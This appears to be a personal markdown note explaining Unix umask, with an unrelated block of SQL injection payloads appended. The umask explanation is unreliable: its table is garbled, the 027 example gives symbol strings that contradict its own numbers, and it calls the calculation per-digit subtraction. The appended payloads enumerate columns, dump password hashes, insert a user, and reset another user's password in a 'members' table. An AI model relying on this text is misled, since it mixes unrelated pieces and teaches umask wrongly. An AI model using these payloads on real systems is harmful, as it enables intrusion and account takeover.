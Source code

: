 # This file explains what UMASK is in Unix based systems

A umask is a predefined value which determines what permissions to assign to newly created files and folders

To calculate the permissions, we need to subtract this umask from the default
permissions given to files and folders respectively.

**Warning: The umask values need to be 4 digits like: 0000 when setting a new umask**

The default umask value for normal user is usually `0002`. 
The default umask value for root user is usually `0022`.
The default file permissions upon creation are usualy `666`.
The default folder permissions upon creation are usually `777`.

The permissions for files and folders generally are defined as follows (for UMASK = 0):
```
7   all permissions  | rwx
6   read and write   | rw-
5   read, execute    | r-x 
4   read only        | r--
3   write, execute   | -wx 
2   write only       | -w-
1   execute only     | --x
0   no permissions   | ---
```
So a file with permissions 666 would have the perms: rw-rw-rw-


The permissions for the UMASK are defined a little differently:
```
Octal    permissions   files directory
7   all permissions  | ---      ---
6   read and write   | --x      --x
5   read, execute    | -w-      -w-
4   ---------        | -w-      -wx
3   write, execute   | r--      r--
2   ----------       | r--      r-x
1   execute only     | rw-      rw-
0   --------------   | rw-      rwx
```
In this case, 


Let's see an example with umasks. The permissions for newly created files will be calculated as follows:

#### Example umask = 002 (default group user)
```
                    folder        |            file
Before mask:  777   (drwxrwxrwx)  |   666    (-rw-rw-rw-) 
Operations : -002   (========w=)  |  -002    (========w=) 
After mask :  775   (drwxrwxr-x)  |   664    (-rw-rw-r--) 
```

#### Example umask = 022 (default root user)
```
                    folder        |            file
Before mask:  777   (drwxrwxrwx)  |   666    (-rw-rw-rw-)   
Operations : -022   (==========)  |  -022    (==========)   
After mask :  755   (drwxr-xr-x)  |   644    (-rw-r--r--)    
```

#### Example umask = 027 (default root user)
```
                    folder        |            file
Before mask:  777   (drwxrwxrwx)  |   666    (-rw-rw-rw-)   
Operations : -027   (==========)  |  -027    (==========)   
After mask :  750   (drwxr-xr-x)  |   640    (-rw-r--r--)    
```

**Note that in the last example the file permissions are different than we could expect.** This is because we do not perform an arithmetic subtraction of the UMASK from the default permissions but rather subtract each octal value in the corresponding position. If the result of the subtraction is negative, it defaults to the lowest permissions possible, which is 0. So we have:
```
 6  6  6
-0 -2 -7
--------
 6  4  0
``` 

view all column names of table members
```
' AND 1=2 UNION SELECT COLUMN_NAME,NULL,NULL,NULL FROM INFORMATION_SCHEMA.columns WHERE TABLE_NAME = "members";
```

insert your own user
```
%'; INSERT INTO members (Username, Name, email, Password) VALUES ("flying_buffallo", "Mr. Buffallo", "buffallo@flying.de", "crackme" );
```

view all users and their password hashes
```
' AND 1=2 UNION SELECT Username, Password, NULL, NULL FROM members;
```

Update the password of the user sam
```
'; UPDATE members SET Password = "4b6ad7d194518aac02b072e6179dbf1e69ffa7ba" WHERE Username = "sam";
```